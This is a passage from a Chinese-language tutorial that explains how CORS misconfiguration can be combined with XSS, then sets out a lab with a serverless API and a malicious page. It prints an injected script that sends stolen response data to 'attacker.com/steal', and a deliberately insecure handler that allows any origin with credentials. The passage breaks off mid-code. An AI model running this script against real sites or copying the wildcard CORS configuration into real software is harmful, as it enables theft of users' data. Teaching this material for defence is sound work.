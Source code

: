 ```javascript
```

### 3.2 CORS与XSS结合
攻击者可以将CORS滥用与XSS（跨站脚本攻击）结合，窃取更敏感的数据。

**攻击步骤：**
1. 攻击者在目标网站上注入恶意脚本。
2. 受害者访问被注入恶意脚本的页面，浏览器执行恶意脚本。
3. 恶意脚本发起跨域请求，获取敏感数据并发送到攻击者的服务器。

**代码示例：**
```javascript
// 假设这是注入的恶意脚本
fetch('https://target-api.com/sensitive-data', {
  method: 'GET',
  credentials: 'include'
})
.then(response => response.json())
.then(data => {
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
```

## 4. 实验环境搭建指南

### 4.1 实验环境需求
- **目标API**：配置CORS的无服务器API（如AWS Lambda、Google Cloud Functions）。
- **恶意网页**：用于发起跨域请求的恶意网页。
- **攻击者服务器**：用于接收窃取的数据。

### 4.2 实验步骤
1. **搭建目标API**：
   - 使用AWS Lambda或Google Cloud Functions创建一个简单的API，配置CORS允许所有源（`*`）。
   - 示例代码：
     ```javascript
     exports.handler = async (event) => {
       return {
         statusCode: 200,
         headers: {
           'Access-Control-Allow-Origin': '*',
           'Access-Control-Allow-Credentials': true
         },
         body: JSON.stringify({ sensitiveData: 'This is sensitive data' })
       };
     };
     ```

2. **搭建恶意网页**：
   - 创建一个HTML文件，包含发起跨域请求的JavaScript代码。
   - 示例代码：
     ```html
     <!DOCTYPE html>
     <html>
     <head>
       <title>Malicious Page</title>
     </head>
     <body>
       <script>
         fetch('https://target-api.com/sensitive-data', {
           method: 'GET',